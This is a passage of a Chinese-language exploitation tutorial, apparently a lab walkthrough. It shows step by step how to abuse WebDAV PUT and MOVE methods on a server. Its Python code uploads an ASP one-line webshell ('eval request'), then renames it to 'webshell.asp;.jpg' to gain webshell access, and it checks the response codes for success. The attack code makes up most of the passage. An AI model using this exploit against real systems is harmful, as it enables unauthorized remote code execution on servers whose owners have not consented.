 #### **4.利⽤漏洞**

前⾯探测到⽬标服务器允许PUT和MOVE请求⽅法，那么下⾯我们使⽤PUT⽅发向⽬的服务器上传⽊⻢代码。

伪造请求headers

```python
# 构造请求头，定义的Host是假IP
headers = {
"Host": "219.153.49.228:43068",
"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:56.0) Gecko/20100101 
Firefox/56.0",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
"Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
"Accept-Encoding": "gzip, deflate",
"Connection": "close",
"Content-Length": "25"
}
```

请求的payload

```python
# 上传⼀句话⽊⻢
data = '<% eval request("mima") %>'
```

构造请求url，指定⽊⻢保存的⽂件

```python
# ⽊⻢保存的⽂件
target_file = url + "/webshell.txt"
```

执⾏PUT请求，获取返回response状态码，根据状态码判断⽊⻢⽂件是否⽣成成功。

```python
resp = requests.put(target_file, headers=headers, data=data)
print(type(resp.status_code))
# 判断返回的状态码，第⼀次上传是201，如果重复上传是200
if resp.status_code == 200 or resp.status_code == 201:
	print("⽊⻢⽂件上传成功！")
```

⽬前，我们的⽊⻢⽂件是txt⽂本⽂件，⽹站请求这个⽂件是⽆法执⾏⾥⾯的代码的，我们需要将⽂件转换为asp可执⾏的脚本⽂件，这样我们后⾯使⽤⼯具链接这个asp⽂件的时候，就可以获得WebShell权限。

在headers中添加⼀个key，意义在于，在⽬标服务器中，将webshell.txt重命名为`webshell.asp;.jpg`

```
headers["Destination"] = "/webshell.asp;.jpg"
```

python的requests库是没有单独的MOVE⽅法，但是requests可以⾃定义请求⽅法，下⾯构造MOVE请求⽅法，并获取它返回的状态码进⾏判断。

```python
resp = requests.request("MOVE", target_file, headers=headers, data=data)
# 判断状态码是否为207，207 Multi-Status是WebDAV扩展的状态码，代表之后的消息体将是⼀个XML消息
if resp.status_code == 207:
	print("⽊⻢⽂件改为脚本⽂件修改成功，成功获得WebShell权限！")
```
